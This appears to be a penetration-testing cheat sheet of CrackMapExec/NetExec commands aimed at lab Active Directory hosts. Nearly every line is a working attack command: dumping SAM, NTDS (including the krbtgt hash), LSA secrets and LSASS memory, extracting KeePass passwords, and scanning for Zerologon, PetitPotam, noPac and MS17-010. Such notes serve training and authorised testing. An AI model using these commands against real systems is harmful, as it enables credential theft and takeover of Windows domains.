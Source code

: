 ### <mark style="color:yellow;">Getting Hashes</mark>

```bash
# SAM credentials local users
crackmapexec smb dc01.zencorp.htb -u robert -p pass@123 --sam

# NTDS database from DC
crackmapexec smb dc01.zencorp.htb -u robert -p pass@123 --ntds
crackmapexec smb dc01.zencorp.htb -u robert -p pass@123 --ntds --user krbtgt

# LSA Secrets/Cached Credentials
crackmapexec smb dc01.zencorp.htb -u robert -p pass@123 --lsa

# LSASS
crackmapexec smb dc01.zencorp.htb -u robert -p pass@123 -M lsassy

# Procdump
crackmapexec smb dc01.zencorp.htb -u robert -p pass@123 -M procdump
```

Get DNS records

```sh
nxc ldap dc01.inlanefreight.htb -u julio -p Password1 -M get-network -o ALL=true
```

### <mark style="color:yellow;">KeePass</mark>

```sh
# Find config file
nxc smb dc01.inlanefreight.htb -u julio -p Password1 -M keepass_discover

# Get passwords
nxc smb dc01.zencorp.htb -u julio -p Password1 -M keepass_trigger -o ACTION=ALL KEEPASS_CONFIG_PATH=C:/Users/david/AppData/Roaming/KeePass/KeePass.config.xml
```

### <mark style="color:yellow;">Vulnerabilty scanning</mark>

```sh
nxc -q smb 172.16.10.3 -M Zerologon
nxc -q smb 172.16.10.3 -M -M PetitPotam
nxc -q smb 172.16.10.3 -M nopac
nxc -q smb 172.16.10.3 -M dfscoerce
nxc -q smb 172.16.10.3 -M shadowcoerce --verbose
nxc -q smb 172.16.10.3 -M ms17-010
```

